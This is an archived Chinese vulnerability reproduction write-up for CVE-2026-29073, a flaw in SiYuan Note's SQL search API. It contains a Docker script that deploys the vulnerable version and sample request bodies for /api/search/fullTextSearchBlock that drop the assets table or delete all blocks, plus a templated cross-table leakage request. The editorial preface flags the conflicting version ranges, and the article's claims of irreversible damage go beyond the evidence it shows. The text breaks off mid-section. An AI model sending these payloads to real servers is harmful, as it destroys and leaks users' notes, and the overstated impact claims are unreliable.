






# SiYuan SQL漏洞  CVE-2026-29073复现&研究

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：SiYuan笔记服务SQL搜索接口
- 文献类型：SQL权限绕过复现与推导
- 版本、权限及部署边界：已认证低权限/只读角色应为核心；正文<3.6.0，表格<=3.6.0且搭建v3.6.0相矛盾
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 影响边界三处不一致；缺厂商GHSA/修复提交，不能确认v3.6.0是否适合复现
2. 设计允许SQL的接口缺角色授权与传统拼接SQL注入不同，需准确分类并证明读者角色而非管理员auth code调用
3. 展示普通DROP/DELETE概念却后文承认解析成功的非SELECT不执行；需要明确可触发降级的实际语法证据，不能据db.Query名字断言任意写
4. 作者明确持久化修改未成功、插入记录未在Web显示，但结论仍称笔记彻底删除无法恢复和所有用户持续受害，推断超证据；数据库可能为索引需验证
5. 大量场景为占位模板而非真实请求/结果；源码版本行号需固定提交，不能当完整可运行PoC
6. 部署脚本docker compose检测及alias兼容无效，UID环境未验证，chown当前用户不保证UID1000；固定密码/全接口暴露与隔离建议冲突，修改env仅restart不能确保重建环境
7. 保留独立源码链和失败观察，清理行号粘连及CSS

### 操作风险

作者明确持久化修改未成功、插入记录未在Web显示，但结论仍称笔记彻底删除无法恢复和所有用户持续受害，推断超证据；数据库可能为索引需验证

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<http://www.w3.org/1999/xhtml&#34;},&#34;para&#34;,{&#34;tagName&#34;:&#34;p&#34;,&#34;attributes&#34;:{},&#34;namespaceURI&#34;:&#34;http://www.w3.org/1999/xhtml&#34;}]>
- 原文参考链接（未重新核验）：<http://${LOCAL_IP}:${HOST_PORT}>
- 原文参考链接（未重新核验）：<https://github.com/Kai-One001/cve-/blob/main/SiYuan-CVE-2026-29073.py>
- 原文参考链接（未重新核验）：<https://github.com/siyuan-note/siyuan>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 404号浪漫
                    404号浪漫  404号浪漫   2026-03-22 13:53  
  
  
  
点击蓝字，关注我们  
  
  
  
  
  
  
0x0 背景介绍  
  
SiYuan  
（思源笔记）是一款开源的个人知识管理系统，支持细粒度的隐私控制。  
  
在  
3.6.0  
之前的版本中，系统的  
SQL  
接口存在权限校验漏洞。虽然该接口检查了用户的登录状态（  
Basic Auth  
），但未对执行  
SQL  
的管理员权限进行二次验证。任何已登录的用户（即使仅拥有最低级别的读者权限）都可以通过该接口向数据库直接发送并执行任意  
SQL  
查询，导致系统内存储的笔记数据被泄露、篡改或彻底删除。  
  
  
漏洞详情  
<table><thead><tr style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;border: 0px;font-style: inherit;font-variant: inherit;font-weight: inherit;font-stretch: inherit;font-size: 14px;line-height: 1.6;font-family: inherit;font-optical-sizing: inherit;font-size-adjust: inherit;font-kerning: inherit;font-feature-settings: inherit;font-variation-settings: inherit;font-language-override: inherit;vertical-align: baseline;visibility: visible;"><th data-colwidth="174" style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 10px 12px;outline: 0px;overflow-wrap: break-word !important;word-break: break-all;hyphens: auto;border-top: none;border-right: 1px solid rgb(224, 224, 224);border-bottom: 1px solid rgb(224, 224, 224);border-left: none;border-image: none 100% / 1 / 0 stretch;background: rgb(237, 237, 237);max-width: 448px;box-sizing: border-box;font: bold 14px / 1.6 &#34;PingFang SC&#34;, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, Roboto, Ubuntu, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, &#34;Source Han Sans CN&#34;, sans-serif;vertical-align: middle;color: rgba(0, 0, 0, 0.9);text-align: center;white-space: normal;visibility: visible;"><section style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;visibility: visible;font-size: 14px;line-height: 1.6;"><span leaf="" style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;visibility: visible;font-size: 14px;line-height: 1.6;"><span textstyle="" style="font-size: 15px;">漏洞类型</span></span></section></th><th data-colwidth="226" style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 10px 12px;outline: 0px;overflow-wrap: break-word !important;word-break: break-all;hyphens: auto;border-top: none;border-right: 1px solid rgb(224, 224, 224);border-bottom: 1px solid rgb(224, 224, 224);border-left: 1px solid rgb(224, 224, 224);border-image: none 100% / 1 / 0 stretch;background: rgb(237, 237, 237);max-width: 448px;box-sizing: border-box;font: bold 14px / 1.6 &#34;PingFang SC&#34;, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, Roboto, Ubuntu, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, &#34;Source Han Sans CN&#34;, sans-serif;vertical-align: middle;color: rgba(0, 0, 0, 0.9);text-align: center;white-space: normal;visibility: visible;"><section style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;visibility: visible;font-size: 14px;line-height: 1.6;"><span leaf="" style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;visibility: visible;font-size: 14px;line-height: 1.6;"><span textstyle="" style="font-size: 15px;">影响版本</span></span></section></th><th data-colwidth="143" style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 10px 12px;outline: 0px;overflow-wrap: break-word !important;word-break: break-all;hyphens: auto;border-top: none;border-right: 1px solid rgb(224, 224, 224);border-bottom: 1px solid rgb(224, 224, 224);border-left: 1px solid rgb(224, 224, 224);border-image: none 100% / 1 / 0 stretch;background: rgb(237, 237, 237);max-width: 448px;box-sizing: border-box;font: bold 14px / 1.6 &#34;PingFang SC&#34;, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, Roboto, Ubuntu, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, &#34;Source Han Sans CN&#34;, sans-serif;vertical-align: middle;color: rgba(0, 0, 0, 0.9);text-align: center;white-space: normal;visibility: visible;"><section style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;visibility: visible;font-size: 14px;line-height: 1.6;"><span leaf="" style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;visibility: visible;font-size: 14px;line-height: 1.6;"><span textstyle="" style="font-size: 15px;">利用复杂度</span></span></section></th><th data-colwidth="253" style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 10px 12px;outline: 0px;overflow-wrap: break-word !important;word-break: break-all;hyphens: auto;border-top: none;border-right: none;border-bottom: 1px solid rgb(224, 224, 224);border-left: 1px solid rgb(224, 224, 224);border-image: none 100% / 1 / 0 stretch;background: rgb(237, 237, 237);max-width: 448px;box-sizing: border-box;font: bold 14px / 1.6 &#34;PingFang SC&#34;, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, Roboto, Ubuntu, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, &#34;Source Han Sans CN&#34;, sans-serif;vertical-align: middle;color: rgba(0, 0, 0, 0.9);text-align: center;white-space: normal;visibility: visible;"><section style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;visibility: visible;font-size: 14px;line-height: 1.6;"><span leaf="" style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;visibility: visible;font-size: 14px;line-height: 1.6;"><span textstyle="" style="font-size: 15px;">CVE编号</span></span></section></th></tr></thead><tbody><tr style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;border: 0px;font-style: inherit;font-variant: inherit;font-weight: inherit;font-stretch: inherit;font-size: 14px;line-height: 1.6;font-family: inherit;font-optical-sizing: inherit;font-size-adjust: inherit;font-kerning: inherit;font-feature-settings: inherit;font-variation-settings: inherit;font-language-override: inherit;vertical-align: baseline;visibility: visible;"><td data-colwidth="174" style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 10px 12px;outline: 0px;overflow-wrap: break-word !important;word-break: break-all;hyphens: auto;border-top: 1px solid rgb(224, 224, 224);border-right: 1px solid rgb(224, 224, 224);border-bottom: none;border-left: none;border-image: none 100% / 1 / 0 stretch;max-width: 448px;box-sizing: border-box;font: 400 14px / 1.6 &#34;PingFang SC&#34;, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, Roboto, Ubuntu, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, &#34;Source Han Sans CN&#34;, sans-serif;vertical-align: middle;background-color: rgb(255, 255, 255);color: rgba(0, 0, 0, 0.9);text-align: center;white-space: normal;visibility: visible;"><p style="-webkit-tap-highlight-color: rgba(0, 0, 0, 0);margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;clear: both;min-height: 1em;visibility: visible;"><span leaf="" style="-webkit-tap-highlight-color: rgba(0, 0, 0, 0);margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;visibility: visible;"><span textstyle="" style="font-size: 14px;">SQL注入</span></span></p></td><td data-colwidth="226" style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 10px 12px;outline: 0px;overflow-wrap: break-word !important;word-break: break-all;hyphens: auto;border-top: 1px solid rgb(224, 224, 224);border-right: 1px solid rgb(224, 224, 224);border-bottom: none;border-left: 1px solid rgb(224, 224, 224);border-image: none 100% / 1 / 0 stretch;max-width: 448px;box-sizing: border-box;font: 400 14px / 1.6 &#34;PingFang SC&#34;, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, Roboto, Ubuntu, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, &#34;Source Han Sans CN&#34;, sans-serif;vertical-align: middle;background-color: rgb(255, 255, 255);color: rgba(0, 0, 0, 0.9);text-align: center;white-space: normal;visibility: visible;"><p style="-webkit-tap-highlight-color: rgba(0, 0, 0, 0);margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;clear: both;min-height: 1em;visibility: visible;"><span leaf="" data-pm-slice="1 1 [&#34;para&#34;,{&#34;tagName&#34;:&#34;section&#34;,&#34;attributes&#34;:{&#34;style&#34;:&#34;box-sizing: border-box;margin: 0;padding: 0;font-size: 16px;font-family: Roboto, Oxygen, Ubuntu, Cantarell, PingFangSC-light,\n    PingFangTC-light, &#39;Open Sans&#39;, &#39;Helvetica Neue&#39;, sans-serif;&#34;},&#34;namespaceURI&#34;:&#34;http://www.w3.org/1999/xhtml&#34;},&#34;para&#34;,{&#34;tagName&#34;:&#34;p&#34;,&#34;attributes&#34;:{},&#34;namespaceURI&#34;:&#34;http://www.w3.org/1999/xhtml&#34;}]" style="-webkit-tap-highlight-color: rgba(0, 0, 0, 0);margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;visibility: visible;">&lt;= </span><span leaf="">3.6.0</span></p></td><td data-colwidth="143" style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 10px 12px;outline: 0px;overflow-wrap: break-word !important;word-break: break-all;hyphens: auto;border-top: 1px solid rgb(224, 224, 224);border-right: 1px solid rgb(224, 224, 224);border-bottom: none;border-left: 1px solid rgb(224, 224, 224);border-image: none 100% / 1 / 0 stretch;max-width: 448px;box-sizing: border-box;font: 400 14px / 1.6 &#34;PingFang SC&#34;, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, Roboto, Ubuntu, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, &#34;Source Han Sans CN&#34;, sans-serif;vertical-align: middle;background-color: rgb(255, 255, 255);color: rgba(0, 0, 0, 0.9);text-align: center;white-space: normal;visibility: visible;"><section style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;visibility: visible;font-size: 14px;line-height: 1.6;"><span leaf="" style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;visibility: visible;font-size: 14px;line-height: 1.6;"><span textstyle="" style="font-size: 14px;">低</span></span></section></td><td data-colwidth="253" style="-webkit-tap-highlight-color: transparent;margin: 0px;padding: 10px 12px;outline: 0px;overflow-wrap: break-word !important;word-break: break-all;hyphens: auto;border-top: 1px solid rgb(224, 224, 224);border-right: none;border-bottom: none;border-left: 1px solid rgb(224, 224, 224);border-image: none 100% / 1 / 0 stretch;max-width: 448px;box-sizing: border-box;font: 400 14px / 1.6 &#34;PingFang SC&#34;, -apple-system, BlinkMacSystemFont, &#34;Segoe UI&#34;, Roboto, Ubuntu, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, &#34;Source Han Sans CN&#34;, sans-serif;vertical-align: middle;background-color: rgb(255, 255, 255);color: rgba(0, 0, 0, 0.9);text-align: center;white-space: normal;visibility: visible;"><p style="-webkit-tap-highlight-color: rgba(0, 0, 0, 0);margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;clear: both;min-height: 1em;visibility: visible;"><span leaf="" style="-webkit-tap-highlight-color: rgba(0, 0, 0, 0);margin: 0px;padding: 0px;outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;visibility: visible;"><br/></span></p><p><span leaf="">CVE-2026-29073</span></p></td></tr></tbody></table>  


**攻击效果：**  
- 伪  
执行任意  
SQL  
语句，从而造成数据泄露、篡改等  
。  
  
  
  
**0x1 环境搭建（Ubuntu24）**  
### 1.1-Ubuntu24+Docker搭建配置  
- ### 另存为install.sh运行  
  
```
#!/bin/bash

# ==========================================
# 思源笔记 (SiYuan Note) 一键部署脚本 (纯净版)
# 版本: v3.6.0 (含权限校验漏洞版本，仅用于安全研究)

set -e

# --- 配置区域 (可自定义) ---
PROJECT_DIR="$HOME/siyuan-note"
CONTAINER_NAME="siyuan-note"
IMAGE_VERSION="b3log/siyuan:v3.6.0"
HOST_PORT="6806"
CONTAINER_PORT="6806"
TIMEZONE="Asia/Shanghai"

# 默认密码
DEFAULT_PASSWORD="MySuperSecretRootPassword2026!"
# 运行用户 ID (通常不需要改，除非宿主机用户 ID 不是 1000)
RUN_UID=1000
RUN_GID=1000

echo "=============================================="
echo "  思源笔记 (SiYuan Note) 一键部署脚本"
echo "  目标版本: ${IMAGE_VERSION}"
echo "  (注：此版本存在 CVE-2026-29073 SQL 注入漏洞)"
echo "=============================================="

# 阶段 0: 检查依赖
echo "[*] 阶段 0/5：检查环境依赖..."
if ! command -v docker &> /dev/null; then
    echo "[x] 未检测到 Docker，请先安装 Docker"
    exit 1
fi
if ! command -v docker compose &> /dev/null && ! docker compose version &> /dev/null; then
    if command -v docker-compose &> /dev/null; then
        alias docker compose="docker-compose"
        echo "[*] 检测到旧版 docker-compose，已兼容处理"
    else
        echo "[x] 未检测到 Docker Compose，请先安装"
        exit 1
    fi
fi
echo "[+] Docker 环境检查通过"

# 阶段 1: 创建目录
echo "[*] 阶段 1/5：创建工作目录..."
mkdir -p "${PROJECT_DIR}"/{workspace,backups}
cd "${PROJECT_DIR}" || { echo "[x] 进入目录失败"; exit 1; }
echo "[+] 工作目录: $(pwd)"

# 阶段 2: 生成配置文件
echo "[*] 阶段 2/5：生成配置文件 (.env & docker-compose.yml)..."

# 生成 .env
cat > .env <<EOF
# 思源笔记访问密码/auth code 
SIYUAN_PASSWORD=${DEFAULT_PASSWORD}
# 运行用户 ID
PUID=${RUN_UID}
PGID=${RUN_GID}
EOF

# 生成 docker-compose.yml
cat > docker-compose.yml <<EOF
version: '3'

services:
  siyuan:
    image: ${IMAGE_VERSION}
    container_name: ${CONTAINER_NAME}
    restart: unless-stopped

    ports:
      - "${HOST_PORT}:${CONTAINER_PORT}"

    volumes:
      - ./workspace:/siyuan/workspace
      - ./backups:/siyuan/backups

    environment:
      - TZ=${TIMEZONE}
      - PUID=\${PUID}
      - PGID=\${PGID}
      - SIYUAN_ACCESS_AUTH_CODE=\${SIYUAN_PASSWORD}

    # 资源限制 (可选)
    deploy:
      resources:
        limits:
          memory: 1G
          cpus: '1.0'
EOF

echo "[+] 配置文件生成完毕"

# 阶段 3: 修正权限 (关键步骤)
echo "[*] 阶段 3/5：修正目录权限..."
# 确保当前用户拥有目录所有权，避免容器内 UID 1000 无法写入
chown -R $(id -u):$(id -g) ./workspace ./backups
chmod -R 755 ./workspace ./backups
echo "[+] 权限设置完成 (所有者: $(whoami))"

# 阶段 4: 启动服务
echo "[*] 阶段 4/5：启动 Docker 容器..."
docker compose up -d

echo "[*] 等待服务初始化 (约 15 秒)..."
for i in {1..6}; do
    echo -n "."
    sleep 2.5
done
echo ""

# 阶段 5: 健康检查
echo "[*] 阶段 5/5：检查服务状态..."

# 检查容器是否运行
if [ "$(docker inspect -f '{{.State.Running}}' ${CONTAINER_NAME} 2>/dev/null)" != "true" ]; then
    echo "[x] 容器启动失败！请查看日志:"
    docker logs --tail 20 ${CONTAINER_NAME}
    exit 1
fi

# 检查日志中是否包含成功标志
MAX_WAIT=30
COUNT=0
while [ $COUNT -lt $MAX_WAIT ]; do
    if docker logs ${CONTAINER_NAME} 2>&1 | grep -q "kernel booted"; then
        break
    fi
    sleep 1
    COUNT=$((COUNT+1))
done

if [ $COUNT -ge $MAX_WAIT ]; then
    echo "[!] 警告：未在 ${MAX_WAIT} 秒内检测到 'kernel booted'，但容器正在运行。"
    echo "    可能是首次启动索引重建较慢，请稍后检查日志。"
else
    echo "[+] 服务内核启动成功！"
fi

# 获取本地 IP
LOCAL_IP=$(hostname -I | awk '{print $1}')

echo "=============================================="
echo "  思源笔记部署完成！"
echo "=============================================="
echo "  访问地址:"
echo "     局域网: http://${LOCAL_IP}:${HOST_PORT}"
echo "     本地:   http://localhost:${HOST_PORT}"
echo ""
echo "  初始密码/auth code:"
echo "     ${DEFAULT_PASSWORD}"
echo "     (提示：请编辑 .env 文件修改密码并重启容器以保障安全)"
echo ""
echo "  数据位置:"
echo "     ${PROJECT_DIR}/workspace"
echo "     ${PROJECT_DIR}/backups"
echo ""
echo "  ⚠️  安全提醒:"
echo "     此版本 (v3.6.0) 存在 CVE-2026-29073 漏洞"
echo "     普通用户可通过 /api/search/fullTextSearchBlock 接口执行任意 SQL"
echo "     请仅在隔离环境用于安全测试，勿用于生产环境！"
echo ""
echo "  常用命令:"
echo "     查看日志：docker logs -f ${CONTAINER_NAME}"
echo "     重启服务：docker compose restart"
echo "     停止服务：docker compose down"
echo "=============================================="
```  
  
  
## 0x2 漏洞复现  
### 2.1-脚本验证  
- ## python验证  
  
```
https://github.com/Kai-One001/cve-/blob/main/SiYuan-CVE-2026-29073.py
```  
## 2.2-手动验证2.1 场景 A：数据泄露 (SELECT)  
  
  
  
2.2 场景 B：  
内容破坏  
 (INSERT)  
  
  
  
  
  
2.3 场景 C：服务可用性被摧毁 (DROP TABLE)  
- 原理概念  
  
```
{
"method":2,
"query":"DROP TABLE assets",
"page":1,
"pageSize":10
}
```  
- 后果：   
assets  
表被删除，导致图片上传、附件管理等功能彻底失效，系统日志报错刷屏。  
  
```
{
"method":2,
"query":"DELETE FROM blocks",
"page":1,
"pageSize":10
}
```  
- 后果： 执行后，前端所有笔记内容瞬间消失，且无法通过常规手段恢复（除非有本地备份）。  
  
2.4 场景 D：跨表敏感数据读取（任意表"伪装为块"泄露）  
  
此前 PoC 仅演示了对blocks  
表的直接读取。结合源码可以发现，/api/search/fullTextSearchBlock  
在SQL模式下，会把任意 SQL 结果强行映射为Block  
结构（scanBlockRows  
 依次 Scan 21 个字段），然后再返回给前端。  
  
这意味着：只要攻击者构造出一条"列数量和类型上可以被Block  
结构接收"的 SELECT  
，就可以把任意业务表的数据（例如用户信息表、附件元数据表、权限/分享策略表中的敏感字段）注入到某些块字段中（如 content  
、memo  
、alias  
 等），从而"披着块的皮"返回到接口响应里，实现跨表敏感数据泄露。  
  
HTTP 流量示例（概念）  
```
POST /api/search/fullTextSearchBlock HTTP/1.1
Host:<目标主机>:<端口>
Content-Type: application/json
Cookie: siyuan=<普通用户Session>

{
    "method": 2,
    "query": "<构造为：SELECT ... FROM 目标敏感表/视图，通过子查询/表达式填充成 Block 结构的列>",
    "page": 1,
    "pageSize": 10
}
```  
- 不再局限于blocks  
内容本身，而是可以读取数据库中任意业务表的敏感信息，包括但不限于用户账号信息、共享/访问控制策略、附件/资源定位信息等  
  
- 由于返回结构仍然是blocks  
，这类泄露在日志/审计层面不易与普通搜索流量区分，增加排查难度  
  
### 2.5 场景 E：解析降级导致的写操作执行（DELETE/UPDATE/INSERT/DROP）  
  
searchBySQL  
